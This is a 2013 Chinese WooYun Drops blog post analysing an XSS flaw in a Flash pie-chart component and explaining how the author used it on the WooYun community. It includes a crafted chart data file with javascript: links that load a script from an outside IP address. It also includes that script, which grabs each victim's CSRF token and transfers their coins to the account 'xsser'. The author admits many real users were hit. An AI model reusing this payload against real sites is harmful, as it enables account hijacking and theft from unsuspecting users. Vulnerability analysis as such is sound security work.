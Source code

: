 # 闲扯下午引爆乌云社区“盗窃”乌云币事件

2013/07/30 21:56 | [心伤的胖子](http://drops.wooyun.org/author/心伤的胖子 "由 心伤的胖子 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章"), [运维安全](http://drops.wooyun.org/category/%e8%bf%90%e7%bb%b4%e5%ae%89%e5%85%a8 "查看 运维安全 中的全部文章") | 占个座先 | 捐赠作者

## 起因

* * *

请各位看官看这里：[`zone.wooyun.org/content/4997`](http://zone.wooyun.org/content/4997)

斗胆分析下漏洞细节，在 [`www.showmycode.com/`](http://www.showmycode.com/) 上面反编译该 flash 代码。

搜索，配置文件是通过 data 参数传入进去的，搜索 _root.data，找到如下代码：

```
var lv = new LoadVars();
lv.onLoad = LoadVarsOnLoad;
lv.make_chart = make_chart;
lv.make_pie = make_pie;
if (_root.data == undefined) {
    if (_root.variables == undefined) {
        _root.data = "C:\\Users\\John\\Documents\\flash\\svn\\data-files\\data-47.txt";
        lv.load(_root.data);
    } else {
        _root.LoadVarsOnLoad = LoadVarsOnLoad;
        _root.LoadVarsOnLoad(true);
    }
} else {
    lv.load(_root.data);
}

```

通过 LoadVars 载入的，LoadVars 载入的数据是以 & 符号分割的，载入完成调用 LoadVarsOnLoad 函数。跟进去看代码

```
function LoadVarsOnLoad(success) {
    if (!success) {
        _root.loading.done();
        _root.oops(_root.data);
        return(undefined);
    }
    if (_root.oops != undefined) {
        removeMovieClip("oops");
    }
    for (i in _root) {
        if (typeof(_root[i]) == "movieclip") {
            removeMovieClip(_root[i]);
        }
        delete i;
    }
    _root.css = new Css("margin-top: 30;margin-right: 40;");
    NumberFormat.getInstance(this);
    NumberFormat.getInstanceY2(this);
    _root._background = new Background(this);
    if (this.pie != undefined) {
        this.make_pie();
    } else {
        this.make_chart();
    }
    if (this.tool_tip != undefined) {
        _root.tool_tip_wrapper = this.tool_tip.replace("#comma#", ",");
    }
    _root.loading.done();
    _root.move();
}

```

看下面，如果外部数据中有 pie ，就调用 this.make_pie()。

```
if (this.pie != undefined) {
        this.make_pie();
}

```

搜索 make_pie 这个函数看代码，有如下，调用了 new PieStyle(this, "pie");

```
function make_pie() {
    _root._pie = new PieStyle(this, "pie");
    _root._title = new Title(this);
}

```

继续跟进去，在这个类中的初始化函数最开始有 links = lv.links.split(","); ，lv.links 从外部传入通过 split 后放入 links ，最后调用了 set_values(_local6)，继续看 set_values 函数，有如下代码：

```
function set_values(v) {
    super.set_values(v);
    pie_mcs = new Array(values.length);
    var _local4 = 0;
    while (_local4 < values.length) {
        var _local5 = _root.createEmptyMovieClip((name + "_") + _local4, _root.getNextHighestDepth());
        _local5.onRollOver = function () {
            ChartUtil.FadeIn(this, true);
        };
        _local5.onRollOut = function () {
            ChartUtil.FadeOut(this);
        };
        if (links.length > _local4) {
            _local5._ofc_link = links[_local4];
            _local5.onRelease = function () {
                trace(this._ofc_link);
                getURL (this._ofc_link);
            };
        }
        var _local6 = {x_label:labels[_local4], value:values[_local4], key:"??"};
        _local5.tooltip = _local6;
        pie_mcs[_local4] = _local5;
        _local4++;
    }
    valPos();
}

```

这个函数是关键，遍历 links，然后放入 getURL 中，因为 getURL 这里是可以执行 js 代码的。

## 利用

* * *

既然可以 xss，那就可以绕过 token 机制，对 wooyun 的业务进行操作了，先来看下如何构造远程数据。看如下代码：

```
&title=腾讯高危漏洞一览表（点击类别可以查看详情）,{font-size:18px; color: #d01f3c}&
&x_axis_steps=1&
&y_ticks=50,50&
&line=2,#87421F&
&y_min=0&
&y_max=20&
&pie=60,#E4F0DB,{display:none;},1,,1&
&values=50,50&
&pie_labels=远程命令执行,腾讯客户端溢出&
&colours=#d01f3c,#356aa0&
&links=javascript:window.s=document.createElement('script');window.s.src='http://42.96.150.181/data.js';document.body.appendChild(window.s);,javascript:window.s=document.createElement('script');window.s.src='http://42.96.150.181/data.js';document.body.appendChild(window.s);&
&tool_tip=类别%3A+%23x_label%23%3Cbr%3E 比例%3A+%23val%23%25& 
```

起了个很响亮的标题明“腾讯高危漏洞一览表（点击类别可以查看详情）”，让看到的很很有欲望点击中间的圆圈圈有木有，链接写成

```
javascript:window.s=document.createElement('script');window.s.src='http://42.96.150.181/data.js';document.body.appendChild(window.s); 
```

加载我们的 js 文件。

js 文件的代码如下：

```
/*
 * ajax
 */
ajax = function(url, params, callback) {
    (params instanceof Function) && (callback = params, params = void(0));
    var XHR = (window.XDomainRequest) || window.XMLHttpRequest || (function() {
        return new ActiveXObject('MSXML2.XMLHTTP')
    });
    var xhr = new XHR();
    xhr.open(params ? 'post' : 'get', url);
    xhr.withCredentials = true;
    try {
        params && xhr.setRequestHeader('content-type', 'application/x-www-form-urlencoded');
    } catch (e) {}
    callback && (xhr.onreadystatechange = function() {
        (this.readyState == 4 && ((this.status >= 200 && this.status <= 300) || this.status == 304)) && callback.apply(
this, arguments);
    });
    xhr.send(params);
};

ajax("http://www.wooyun.org/user.php?action=update", function(){
    var token = this.responseText.match(/token" value=\"(.+?)\"/)[1]
    ajax("http://www.wooyun.org/user.php?action=coin&do=action_submit", "token=" + token + "&to_whitehat=xsser&to_coin=
1");
})

```

借用 sogili xss.js 中的 ajax 代码，先获取当前用户的 token，然后再进行转账操作。

## 效果

* * *

来找个实战的地方，发到 wooyun，见这里：[`zone.wooyun.org/content/5548`](http://zone.wooyun.org/content/5548)

## 后续

* * *

其实我没想到这么多人中招的，本来抱着娱乐的目的玩玩的，看来好多人情绪很高涨，在这里先对各位抱个歉。

**Tags:** [flash](http://drops.wooyun.org/tag/flash), [xss](http://drops.wooyun.org/tag/xss)

版权声明：未经授权禁止转载 [心伤的胖子](http://drops.wooyun.org/author/心伤的胖子 "由 心伤的胖子 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Flash 安全的一些总结](http://drops.wooyun.org/tips/153)
*   [Short XSS](http://drops.wooyun.org/papers/512)
*   [CVE-2012-0053 详解](http://drops.wooyun.org/papers/501)
*   [一次 SWF XSS 挖掘和利用](http://drops.wooyun.org/papers/44)
*   [Zmap 详细用户手册和 DDOS 的可行性](http://drops.wooyun.org/tools/515)
*   [Bypass IE XSS Filter](http://drops.wooyun.org/tips/159)